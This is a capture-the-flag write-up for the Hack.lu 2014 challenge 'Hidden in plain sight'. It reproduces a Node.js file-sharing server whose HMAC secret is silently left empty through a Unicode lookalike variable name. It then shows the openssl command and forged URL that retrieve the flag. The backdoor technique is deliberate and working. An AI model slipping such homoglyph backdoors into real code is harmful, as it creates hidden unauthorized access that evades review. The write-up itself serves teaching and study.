 ```yaml
---
layout: post
title: "Hack.lu 2014 - Hidden in ρlaιn sιght"
date: 2014-10-23 13:23
comments: true
author: darby
categories: unicode, stego
---
```


## Challenge

At our software development company, one of the top developers left in anger. He told us that he had hidden a backdoor in our node.js server application – he thinks that we can't find it even if we try. I have attached the source code of our fileserver. After registration, you can log in, upload files and create access tokens for your files that others can use to retrieve them. He must have added some way to retrieve files without permission. And we don't have version control, so we can't just check his last commits. We have read the source code multiple times, but just can't figure out how he did it. Maybe he just lied? Can you help us and demonstrate how the backdoor works? We have uploaded a file to "testuser/files/flag.txt" – please try to retrieve it. 

Connect to https://wildwildweb.fluxfingers.net:1409/. Note that all your files will be purged every 5 minutes. 

You can download the service code here: [Download](https://wildwildweb.fluxfingers.net/static/chals/hiddeninplainsight_7a1f79aab159ace6e4486dc73bd24cc8.js)


## Analysis

Downloading the code gives us:

```js
#!/usr/bin/env node

// npm install express@3.18.0

var fs = require('fs')
var crypto = require('crypto')
var express = require('express')
var app = express()
app.listen(1409)
app.use(require('express').bodyParser({uploadDir: __dirname+'/upload_tmp/'}))

var HMAC_SECRET = ''
for (var i=0; i<20; i++) {
  HMAC_SΕCRET = HMAC_SECRET + (Math.random()+'').substr(2)
}

function hmac_sign(path) {
  var hmac = crypto.createHmac('sha256', HMAC_SECRET)
  hmac.update(path)
  return hmac.digest('hex')
}

app.get('/', function(req, res) {
  res.send('<!DOCTYPE html><html><head><title>docstore</title></head><body><ul>'
          +  '<li><a href="register">register</a></li>'
          +  '<li><a href="upload">upload a file</a></li>'
          +  '<li><a href="link">generate an access link</a></li>'
          +'</ul></body></html>')
})

function user_possible(user) {
  return /^[a-zA-Z]+$/.test(user)
}

function auth_ok(user, pass, cb) {
  if (!user_possible(user)) return cb(false)
  fs.readFile('users/'+user+'/pass', {encoding:'utf8'}, function(err, real_pass) {
    if (err) return cb(false) // e.g. if user doesn't exist
    cb(pass === real_pass)
  })
}

app.get('/register', function(req, res) {
  res.send('<!DOCTYPE html><html><head><title>register</title></head><body><form method="POST">'+
    'user: <input type="text" name="user"><br>pass: <input type="password" name="pass"><br><button type="submit">register</button>'+
    '</form></body></html>')
})

app.post('/register', function(req, res) {
  if (!req.body) return res.send('body missing? wtf?')
  var user = req.body.user, pass = req.body.pass;
  if (typeof user !== 'string' || typeof pass !== 'string') {
    return res.send('bad request')
  }

  if (!user_possible(user)) {
    return res.send('bad username')
  }

  var userdir = 'users/'+user+'/'
  fs.mkdir(userdir, function(err) {
    if (err) return res.send('unable to create user: '+e.code)
    fs.writeFile(userdir+'pass', pass, function(err) {
      if (err) throw err
      fs.mkdir(userdir+'files', function(err) {
        if (err) throw err
        res.redirect('/')
      })
    })
  })
})

app.get('/upload', function(req, res) {
  res.send('<!DOCTYPE html><html><head><title>upload</title></head><body><form method="POST" enctype="multipart/form-data">'+
    'user: <input type="text" name="user"><br>pass: <input type="password" name="pass"><br><input type="file" name="file"><br><button type="submit">upload</button>'+
    '</form></body></html>')
})

function sanitize_filename(f) {
  f = f.replace(/[^a-zA-Z0-9_.-]/g, '')
  if (f.length == 0 || f[0] == '.') f = '_'+f
  return f
}

app.post('/upload', function(req, res) {
  if (!req.body) return res.send('body missing? wtf?')
  var user = req.body.user, pass = req.body.pass, file = req.files.file;
  if (typeof user !== 'string' || typeof pass !== 'string' || typeof file !== 'object') {
    return res.send('bad request')
  }

  auth_ok(user, pass, function(is_ok) {
    if (!is_ok) return res.send('bad auth')
    var filename = sanitize_filename(file.name)
    fs.rename(file.path, 'users/'+user+'/files/'+filename, function(err) {
      if (err) return res.send('error: unable to rename')
      res.send('file was stored with name '+filename)
    })
  })
})

app.get('/link', function(req, res) {
  res.send('<!DOCTYPE html><html><head><title>generate a link</title></head><body><form method="POST" enctype="multipart/form-data">'+
    'user: <input type="text" name="user"><br>pass: <input type="password" name="pass"><br>file: <input type="text" name="file"><br><button type="submit">generate link</button>'+
    '</form></body></html>')
})

app.post('/link', function(req, res) {
  if (!req.body) return res.send('body missing? wtf?')
  var user = req.body.user, pass = req.body.pass, file = req.body.file;
  if (typeof user !== 'string' || typeof pass !== 'string' || typeof file !== 'string') {
    return res.send('bad request')
  }
  file = sanitize_filename(file)

  auth_ok(user, pass, function(is_ok) {
    if (!is_ok) return res.send('bad auth')
    file = file.replace(/[^a-zA-Z0-9_.-]/g, '')
    res.redirect('/files/'+user+'/'+file+'/'+hmac_sign(user+'/'+file))
  })
})

app.get('/files/:user/:file/:signature', function(req, res) {
  var user = req.params.user, file = req.params.file, signature = req.params.signature
  if (!user_possible(user)) return res.send('bad user')
  if (sanitize_filename(file) !== file) return res.send('bad filename')
  if (hmac_sign(user+'/'+file) !== signature) return res.send('bad signature')
  res.set('Content-Type', 'text/plain')
  res.sendfile('users/'+user+'/files/'+file)
})
```

## Analysis

The trick here is in the for loop where `HMAC_SECRET` is being updated, they
actually use unicode to hide the fact that a different variable gets updated.
So the actual secret is empty.

```
$ echo -n "testuser/flag.txt" | openssl dgst -sha256 -hmac ""
(stdin)= 4a332c7f27909f85a529393cea72301393f84cf5908aa2538137776f78624db4
$
```

So, the url is

```
https://wildwildweb.fluxfingers.net:1409/files/testuser/flag.txt/4a332c7f27909f85a529393cea72301393f84cf5908aa2538137776f78624db4
```
```
flag{unicode_stego_is_best_stego}
```
